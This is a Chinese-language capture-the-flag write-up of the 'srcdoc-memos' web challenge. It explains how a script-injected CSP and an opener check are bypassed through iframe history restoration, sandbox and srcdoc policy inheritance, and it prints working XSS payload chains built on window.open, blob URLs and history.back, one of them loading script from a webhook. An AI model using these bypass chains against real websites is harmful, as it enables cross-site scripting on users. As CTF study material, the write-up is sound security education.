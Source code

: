 # [srcdoc-memos](https://blog.huli.tw/2024/09/07/idek-ctf-2024-iframe)

看个wp看得cpu烧了，故自己再写一遍理清思路

题目有个`/memo?memo=xxx`的api可用于设置cookie，然后重定向至`/`用iframe的srcdoc展示cookie的内容。然而`/`里有一段script：
```html
<script>
document.head.insertAdjacentHTML(
  "beforeend",
  `<meta http-equiv="Content-Security-Policy" content="script-src 'none';">`
);
if (window.opener !== null) {
  console.error("has opener");
  document.documentElement.remove();
}
</script>
```
用meta标签给当前页面加了个CSP，同时检查当前页面的opener为null。后者很容易绕过，甚至有两种方法：
1. 让某个window在open目标window后再使用window.close快速关闭自己，这样那个打开的window的opener属性就是null（console上这样做没用，说是“不能在没有动作下就开启新的window，所以第二个open会被挡住”）
2. 用window.open开启window后手动将opener设为null。这样并不代表被开启的window就没法访问父window了，只需要记住父window的name属性即可。具体怎么找到父window见 https://blog.huli.tw/2022/04/07/iframe-and-window-open/#windowopen

还剩个csp要解决。`script-src 'none';`在这肯定是啥也干不了的，但是这个csp是在index页面的script里添加的，可不可以让它不执行？可以考虑用iframe的csp属性，我们自己写个iframe，其src为`/memo`。这样在重定向到index时，由于我们自己的csp，script不会运行，从而csp无法生效
```html
<script>
  const challengeHost = 'xxx'
  function openNoOpener(url, name) { //这个函数就是上面提到的第二种方法
    let w = window.open(url, name)
    w.opener = null
  }
  let html = `
    html
    <script src="webhook"></script>
    <iframe csp="script-src http: https:" src="/"></iframe>
  `;
  openNoOpener(`${challengeHost}/memo?memo=${encodeURIComponent(html)}`, 'main');
</script>
```
过程大概是这样的。打开memo并设置cookie为html，然后从memo重定向至index。index内部用srcdoc装html。注意此刻index里script还会生效，故从webhook导入的payload暂时无法生效。但是我们在这里又开了一个iframe，src还是index，并设置script-src只能来自`http:`或`https:`。此时这个iframe里打开第二个index。这第二个index界面被iframe的csp牵制，script里的内容无法执行；无法执行就没有csp；没有csp便可以从外部导入payload了，iframe的csp也允许这点。然而这个做法在最新版本的chrome已经没法用了，如果某个页面原本没有csp，就不能用iframe强加一个。看看预期解

iframe是一个独立的window，自然也可以做navigation。假如有个iframe，原本src是A，现在给它改成B。此时若按上一页，或是执行history.back，会发生什么？答案是iframe从B回到A，而不是装着iframe的那个页面整体回到上一页。这是因为iframe的navigation也会被记录到history中。稍微复杂一点：
```html
<body>
  <iframe sandbox id=f src="data:text/html,test1:<script>document.writeln(Math.random())<\/script>"></iframe>
  <button onclick="loadTest2()">load test2</button>
</body>
<script>
  function loadTest2() {
    f.removeAttribute('sandbox')
    f.src = 'data:text/html,test2:<script>document.writeln(Math.random())<\/script>'
  }
</script>
```
首先iframe `f`载入test1，然后执行loadTest2，把f的sandbox拿掉，并更改其src为test2。此时若按上一页，会发生什么？根据刚才的结论，iframe `f`的src会变回test1。然而这个被移除的sandbox属性不会回来了，保持着没有的状态。这样的话test1里的script就可以执行了。合理，更改src的操作会被记录到history中，但script修改sandbox的操作可不会（我是这么理解的，wp里的理解是说“只是改动src而已，没有动sandbox，因此sandbox维持在最新的状态”）。再复杂一点：
```html
<body>
  <iframe sandbox id=f src="data:text/html,test1:<script>document.writeln(Math.random())<\/script>"></iframe>
  <button onclick="loadTest2()">load test2</button>
  <button onclick="location = 'a.html'">top level navigation</button>
</body>
<script>
  console.log('run')
  function loadTest2() {
    f.removeAttribute('sandbox')
    f.src = 'data:text/html,test2:<script>document.writeln(Math.random())<\/script>'
  }
</script>
```
1. iframe `f`载入test1。sandbox存在故不会执行script
2. loadTest2移除sandbox并载入test2。test2里的script会执行
3. 按下top level navigation，把网页跳去其他地方
4. 按下浏览器上的上一页

如果有bfcache的话，结果就是上一页之前的状态（4个操作后）。毕竟都cache了，和之前不一样就怪了。如果没有bfcache呢？网页应该重新加载一遍，回到最开始的状态。即sandbox iframe `f`载入test1。然而结果是sandbox iframe `f`载入test2。看起来f的sandbox属性跟着页面最新的状态，但src却不是（最新的应为test1），还是和之前的结论一样，回到上一个src test2。这个「回到上一页时，iframe的src回到上次的内容」的机制，就叫做iframe reparenting，似乎没有对应的文档完整描述，而且各个浏览器的实现也都不太一样。不懂为什么叫reparenting，google翻译叫“iframe 重新定位”，我感觉叫iframe src restoring比较直白，反正就是回到上一个src。这个操作反着看就是一个绕过手段，比如无sandbox iframe+安全test1，然后改成sandbox iframe+危险test2。攻击者可以将网页导去其他地方，再回来就出现了无sandbox iframe+危险test2。总之：
1. sandbox属性永远跟着最新的页面
2. src是上一次最后载入的网页

如果用iframe src的话，等同于嵌入了另一个独立的网页，因此两个网页之间的CSP没有任何关联，不会互相影响。但如果是用srcdoc的话，就有继承关系了。就是题目index页面的情况，index有个CSP，那么其子iframe的srcdoc里的内容继承该CSP，script-src也是none。子iframe继承parent的CSP，合理。继续搞事情：
1. 按下top level navigation，去到别的页面
2. 更新index页面，把head里的CSP删掉
3. 按下上一页

假如没有bfcache，加上我又把CSP删了，此时应该算是第一次加载此页面，那index页面和srcdoc里的script都可以执行。结果只对了一半，index里的script可以执行，但srcdoc里的不行。说明此时iframe srcdoc的CSP并不是继承于当前页面，而是继承于history里的结果。用专有名词来说的话，叫做session history以及policy container

总结：
1. sandbox属性永远跟着最新的页面
2. src是上一次最后载入的网页
3. srcdoc的CSP继承上次的结果

就你一个sandbox跟着最新结果，其他两个都跟着history里的上次结果。很多奇奇怪怪的绕过正是生于这种不统一性。最后一步，理解payload：
```html
<script>
  const challengeHost = 'xxx'
  const xssPayload = `<script>alert(document.domain)<\/script>`
  const payload = `<iframe sandbox="allow-same-origin" src="/memo?memo=${xssPayload}">`
  const win = window.open(`${challengeHost}/memo?memo=` + payload)
  setTimeout(() => {
    const win2 = window.open(`${challengeHost}/memo?memo=<iframe></iframe>`)
    setTimeout(() => {
      win2.close()
      win.location = URL.createObjectURL(new Blob([`
        <script>
          setTimeout(() => {
           history.back();
          }, 500);
        <\/script>
      `], { type: "text/html" }));
    }, 1000)
  }, 1000)
</script>
```
开个`/memo`的window，重定向到index后内容如下：
```html
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
  <iframe srcdoc='
    <iframe
      sandbox="allow-same-origin"
      src="/memo?memo=<script>alert(1)</script>">
    </iframe>
  '>
  </iframe>
</body>
```
srcdoc里还是个iframe套娃，但是由于sandbox，内容就很简单了,因为施加csp的script无法执行：
```html
<head></head> <!-- 空的 head，沒有 CSP -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```
然而alert也不会执行，还是因为那个sandbox。继续往下走payload，打开另一个网页win2，将cookie的内容改为`<iframe></iframe>`。最后在win上执行history.back（虽然是更改win.location，但本质只是执行history.back）。跟着history来，上一个打开的网页是`/memo?memo=<iframe></iframe>`,所以此时url是这个，网页内容为：
```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
    <iframe srcdoc='
        <iframe></iframe>
    '>
    </iframe>
</body>
```
……是吗？你这srcdoc也要回到上一个吧（话说这个回退的操作是不是最后做的，本来页面重新加载就应该把`<iframe></iframe>`写上去的，可能back后又给它覆盖回去了？），上一个是啥来着？往上翻，是`<script>alert(1)</script>`。然后啥都不要想，根据之前学的内容，sandbox是什么？它一定跟着最新的页面，所以不要考虑那么多，当前页面没看见sandbox，那就是没有，所以应该是这样：
```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```
这个页面应该是上面提到的iframe套娃内容，本来不应该有csp的。但是因为提到的那个性质，sandbox没了，于是csp又回来了（重新加载时script给它加上去了）。但是！srcdoc的CSP继承上次的结果，和这个没关系。那上次的CSP是什么？没有啊，就是标着“空的 head，沒有 CSP”那里。于是当前页面看着有个csp，其实是没有的。完成xss

此题相关issue： https://github.com/whatwg/html/issues/6809 。另外wp作者的另一篇文章也不错，iframe和open的一些奇怪特性： https://blog.huli.tw/2022/04/07/iframe-and-window-open

这篇wp所介绍的payload其实是不完整的，最终payload为了关注核心概念iframe，刻意省略了原题exp的opener部分。完整exp和题目作者的tldr见 https://gist.github.com/C0nstellati0n/248ed49dea0accfef1527788494e2fa5#srcdoc-memos